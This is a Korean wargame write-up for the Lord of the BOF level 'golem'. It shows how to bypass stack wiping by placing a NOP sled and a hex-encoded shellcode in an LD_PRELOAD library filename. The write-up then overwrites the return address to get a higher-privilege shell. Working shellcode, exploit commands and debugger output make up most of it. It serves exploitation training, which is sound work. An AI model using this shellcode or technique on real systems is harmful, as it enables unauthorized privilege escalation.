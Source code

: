```yaml
---
title: "[LOB]Level11. golem"
tags: [LOB, writeup, LD_PRELOAD]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ Stack Destroyer](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

-----

### 0x01. Analysis

- RET의 시작주소는 `\xbf`
- buffer 배열 초기화
- **RET이후 스택 영역 모두 초기화**

앞문제에서 스택 최상단에 초기화 되지 않는 환경변수 영역까지 초기화 시키는 것을 확인할 수 있다.

따라서, **매개변수, 버퍼, 환경변수 모두 사용 불가**하다.

이제 프로그램 실행에 있어서 큰그림을 살펴봐야한다. 프로그램이 동작할 때 메모리에 실행한 프로그램만 로드되는 것이 아니다. 프로그램 내부에서 사용하는 함수들도 필요하므로 전부 메모리에 로드되게 된다. 일반적으로 내부 함수들은 외부 라이브러리에 존재하기 때문에 다른 메모리 영역에 존재하게된다.

```
[skeleton@localhost skeleton]$ ldd golem
        libc.so.6 => /lib/libc.so.6 (0x40018000)
        /lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

프로그램 내부의 printf함수, strcpy, memset함수들이 모두 위 라이브러리에 속하여있고, 해당 주소에 위치되어 메모리에 로드된다.

여기서 만약 해당 라이브러리에 등록되지 않는 다른 임의의 함수를 추가해서 사용할 때는 어떻게 될까?

해당 함수를 메모리상에 로드해야 실행을 할 수 있으므로 프로그램 동작 시 사전에 메모리에 로드하게 된다.

이러한 설정을 할 수 있는 환경변수가 리눅스에 존재한다. `LD_PRELOAD` 이다.

> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 

이때 `-fPIC` 와 `-shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

```
[skeleton@localhost skeleton]$ mkdir tmp
[skeleton@localhost skeleton]$ cd tmp
[skeleton@localhost /tmp]$ vi tmp.c
```

```c
//tmp.c
int main(){
        return 0;
}
```

```
'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

>-fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
>-shared : 공유 라이브러리를 만드는 옵션

```
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[skeleton@localhost /tmp]$ ls
tmp.c
?????????????????????????????????????????????????????????????????????????????????????????????????????^12?l????u楕
?凹2핽i00tii0cjo??T????
```



그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

```
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



이제 gdb로 LD_PRELOAD 환경변수가 메모리 어디에 로드되는지 확인해보자.

```
[skeleton@localhost tmp]$ cd ../
[skeleton@localhost skeleton]$ gdb -q ./aolem
(gdb) b*main+166
(gdb) r `python -c 'print "\xbf"*48'`
Starting program: /home/skeleton/./aolem `python -c 'print "\xbf"*48'`
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Breakpoint 1, 0x8048516 in main ()
(gdb) x/100x $esp-3000
==================================(생략)===================================
0xbffff754:     0x6d6f682f      0x6b732f65      0x74656c65      0x742f6e6f
0xbffff764:     0x902f706d      0x90909090      0x90909090      0x90909090
0xbffff774:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff784:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff794:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7c4:     0x90909090      0xeb909090      0xc9315e11      0x6c8032b1
0xbffff7d4:     0x8001ff0e      0xf67501e9      0xeae805eb      0x32ffffff
0xbffff7e4:     0x306951c1      0x69697430      0x6f6a6330      0x5451e48a
0xbffff7f4:     0xb19ae28a      0x0081ce0c      0x40013868      0x4000220c
```

LD_PRELOAD는 golem의 메모리 영역보다 낮은 주소에 있기 때문에 초기화 되지 않은것을 알수 있다.

주소는 `0xbffff774` 근처로 잡으면 될 것같다.

-----

### 0x02. Exploit

```
[skeleton@localhost skeleton]$ ./golem `python -c 'print "\x90"*44+"\x74\xf7\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱t?
풺ash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
bash$ my-pass
euid = 511
cup of coffee
bash$
```

-----

### 0x03. 정리

앞 문제에서 초기화 되지 않는 환경변수 영역이 있어 이를 이용한 공격이 가능했지만, 이 또한 egghunter가 아닌 다른 방법으로 초기화 할 수 있음을 확인할 수 있었다.

그리고 `LD_PRELOAD`에 대해서 프로그램 실행시 사전에 메모리에 또다른 영역에 로드되는 것을 확인할 수 있었다.



실제 buffer배열의 주소와 LD_PRELOAD에 주소를 살펴보면,

```
Breakpoint 3, 0x80484d5 in main ()
(gdb) x/32x $ebp-40
0xbffffbc0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbd0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbe0:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbf0:     0x00000000      0xbffffc34      0xbffffc40      0x40013868
```

```sh
0xbffff764:     0x902f706d      0x90909090      0x90909090      0x90909090
0xbffff774:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff784:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff794:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7a4:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff7b4:     0x90909090      0x90909090      0x90909090      0x90909090
```

buffer배열의 시작주소는 `0xbffffbc0` 이고 LD_PRELOAD의 시작주소는 `0xbffff764` 인 것을 확인할 수 있다.

memset을통해 `buffer+48`부터 `0xbfffffff` 까지 초기화 하기 때문에 LD_PRELOAD 영역은 초기화 되지 않는 것이다.

